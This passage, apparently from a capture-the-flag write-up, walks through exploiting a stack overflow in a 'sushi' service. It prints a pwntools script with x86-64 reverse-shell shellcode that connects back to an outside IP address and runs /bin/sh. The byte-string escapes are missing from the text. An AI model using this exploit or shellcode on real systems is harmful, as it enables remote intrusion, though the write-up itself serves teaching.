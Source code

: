 So whats next though, we could do the next step in two ways. Instead of specifying the EIP we are now, we could add 78 to it so it would jump forward, or we could insert a jmp instruction at the current EIP value and tell it to do the jump into our second, larger buffer.

Let's do the latter because it sounds more fun. First lets get the opcodes for jmp +80bytes. We can do this with the nasm_shell tool from metasploit framework:

```
root@mankrik:~/bsides# /usr/share/metasploit-framework/tools/nasm_shell.rb  
nasm > jmp 80  
00000000 E94B000000    jmp dword 0x50  
```

Ok so in python format thats jmp = "xe9x4bx00x00x00", lets add it to our exploit and subtract the number of bytes from our buffer so we keep everything in order.

Let's also replace our "after" buffer with real live shellcode. So our full exploit now looks like this:

```
#!/usr/bin/python   
from pwn import *   
jmp = "xe9x4bx00x00x00"  
buf = "A" * (72 - len(jmp))   
shellcode = ""   
shellcode += "x6ax29x58x99x6ax02x5fx6ax01x5ex0fx05x48"   
shellcode += "x97x48xb9x02x00x00x50x36x41x05x5ax51x48"   
shellcode += "x89xe6x6ax10x5ax6ax2ax58x0fx05x6ax03x5e"   
shellcode += "x48xffxcex6ax21x58x0fx05x75xf6x6ax3bx58"   
shellcode += "x99x48xbbx2fx62x69x6ex2fx73x68x00x53x48"   
shellcode += "x89xe7x52x57x48x89xe6x0fx05"   
nulls = "x00x00"  
# open the tcp connection and receive the banner   
conn = remote('localhost', 4000)   
sushihello = conn.recvline()   
# parse the stack address from the sushi banner   
line = sushihello.split()   
addr = line[5].replace("0x","")   
# Reverse the byte order of the address   
little = "".join(reversed([addr[i:i+2] for i in range(0, len(addr), 2)]))   
# convert the addresses to binary   
data = little.decode('hex')   
# build payload   
attackstring = jmp + buf + data + nulls + shellcode  
# display some debug information for ourselves   
print sushihello   
print "Address: 0x" + addr   
print "Length of attack: " + str(len(attackstring))   
# send the payload   
conn.send(attackstring)   
conn.close()   
```

Great - we should be all set. This time, instead of using GDB to debug the sushi program, let's use strace to trace what's going on. The command line syntax is the same as GDB (e.g. strace -p <pid>)
